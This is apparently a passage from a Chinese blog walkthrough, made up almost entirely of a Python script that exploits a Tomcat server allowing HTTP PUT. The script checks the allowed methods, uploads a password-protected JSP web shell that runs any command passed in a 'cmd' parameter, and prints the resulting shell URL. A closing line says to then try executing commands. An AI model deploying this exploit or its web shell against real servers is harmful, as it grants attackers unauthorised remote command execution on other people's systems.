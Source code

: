 ```python
body = '''<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>'''
 
try:
 
    conn = httplib.HTTPConnection(sys.argv[1])
 
    conn.request(method='OPTIONS', url='/ffffzz')
 
    headers = dict(conn.getresponse().getheaders())
 
    if 'allow' in headers and \
       headers['allow'].find('PUT') > 0 :
 
        conn.close()
 
        conn = httplib.HTTPConnection(sys.argv[1])
 
        url = "/" + str(int(time.time()))+'.jsp/'
 
        #url = "/" + str(int(time.time()))+'.jsp::$DATA'
 
        conn.request( method='PUT', url= url, body=body)
 
        res = conn.getresponse()
 
        if res.status  == 201 :
 
            #print 'shell:', 'http://' + sys.argv[1] + url[:-7]
 
            print 'shell:', 'http://' + sys.argv[1] + url[:-1]
 
        elif res.status == 204 :
 
            print 'file exists'
 
        else:
 
            print 'error'
 
        conn.close()
 
    else:
 
        print 'Server not vulnerable'
 
except Exception,e:
 
    print 'Error:', e
```
![](https://img-blog.csdnimg.cn/20200521234539536.png)
然后尝试执行命令
![](https://img-blog.csdnimg.cn/20200521234606680.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
